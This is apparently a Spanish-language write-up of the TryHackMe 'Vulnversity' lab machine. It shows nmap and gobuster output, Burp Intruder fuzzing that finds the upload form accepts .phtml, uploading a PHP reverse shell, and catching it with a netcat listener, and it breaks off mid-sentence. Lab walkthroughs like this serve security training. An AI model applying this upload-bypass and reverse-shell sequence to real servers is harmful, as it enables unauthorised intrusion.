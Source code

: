 ```yaml
---
title: Tryhackme - Vulnversity
author: nik0
date: 2020-11-14 14:10:00 +0800
categories: [Write up]
tags: [THM,Vulnversity]
---
```

![Vulnversity logo!](/assets/img/sample/vulnlogo.png)


## Introducción

En este write up veremos la máquina Vulnversity de Tryhackme, veremos temas cómo reconocimiento activo, ataques a aplicaciones web y escalación de privilegios explotando binarios.

## Reconocimiento

Primero haremos un escaneo con nmap para ello utilizamos el comando ```sudo nmap -sC -sV "ip"``` y el output que nos muestra es el siguiente:

```terminal
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 21:03 -03
Nmap scan report for 10.10.128.154
Host is up (0.27s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m19s, deviation: 2h53m12s, median: 19s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-11-13T19:04:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-14T00:04:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.43 seconds
```
Primero probé con el puerto 21, pero no habia ningún exploit para esa versión, luego intenté conectarme para ver si tenía acceso anónimo y nada, después seguí con ssh, y tampoco habían exploits disponibles para esa versión, continué con samba buscando recursos compartidos y estaba todo sin acceso con SMBMAP, luego termino con el puerto 3333 que es http y si pongo la ip de la máquina con el puerto me sale esto:

![1](/assets/img/sample/1.jpeg)

Indagando más a fondo en la página (mirando el codigo fuente etc) me di cuenta de que es solo frontend así que empecé a enumerar directorios con gobuster

## Localizando directorios con Gobuster

Con el comando ```gobuster dir -u http://10.10.128.154:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150``` enumeramos los directorios escondidos que puede tener la página web, OJO: no es recomendable aumentar los threads porque se podría hacer una denegación de servicio o te podría bloquear un firewall, en todo caso con la herramienta W4fw00f se puede saber si un sitio tiene firewall o no, finalmente este es el resultado de Gobuster:

```terminal
2020/11/13 21:43:55 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
===============================================================
```
El directorio ```/internal``` se ve interesante y si ponemos esto en la url del sitio nos lleva a esto:

![2](/assets/img/sample/2.png)

Encontramos una subida de archivos, donde podemos subir una shell y así posteriormente tener conexión reversa con el servidor, o un backdoor así que primero vamos a abrir burpsuite para saber que tipo de extension es admitida para poder subir nuestro backdoor

![3](/assets/img/sample/3.png)

ahí subimos el archivo test.jpg y lo interceptamos con burpsuite y ahora lo mandamos a intruder para posteriormente hacer fuzzing al objetivo

![4](/assets/img/sample/4.png)

Luego nos vamos a payloads y cargamos las posibles extensiones que permitirían la subida del archivo, pueden usar la lista que ustedes les guste más

![5](/assets/img/sample/5.png)

Y ejecutamos el ataque, el resultado es el siguiente:

![6](/assets/img/sample/6.png)

Podemos ver que aceptó la extensión .phtml porque cambió la longitud y si se renderiza via web igual se puede ver

Ya que encontramos el directorio donde se pueden subir archivos, tenemos que encontrar en donde se alojan para poder ejecutar nuestro backdoor

Así que utilizamos nuevamente Gobuster para enumerar directorios en el mismo de /internal

El comando a utilizar sería ```gobuster dir -u http://10.10.6.52:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```

Output:
```terminal
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.6.52:3333/internal
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 22:44:15 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
```
Podemos ver que hay un subdirectorio llamado /uploads y se ve así:

![7](/assets/img/sample/7.png)

Ahora procedemos a subir nuestra shell

## Comprometiendo el servidor web

usamos el comando ```cp /usr/share/webshells/php/php-reverse-shell.php shell.phtml``` para mover nuestra shell y poner la extensión .phtml (OJO: hay que editar la shell y cambiar la ip y el puerto!)

luego la subimos en /internal

ponemos a la escucha netcat con el comando ```nc -lnvp TUPUERTO``` en mi caso era el 443 así que era ```nc -lnvp 443```

lo ejecutamos en /uploads

si todo salió bien, debería aparece algo así en la terminal:

![8](/assets/img/sample/8.png)





ponemos a





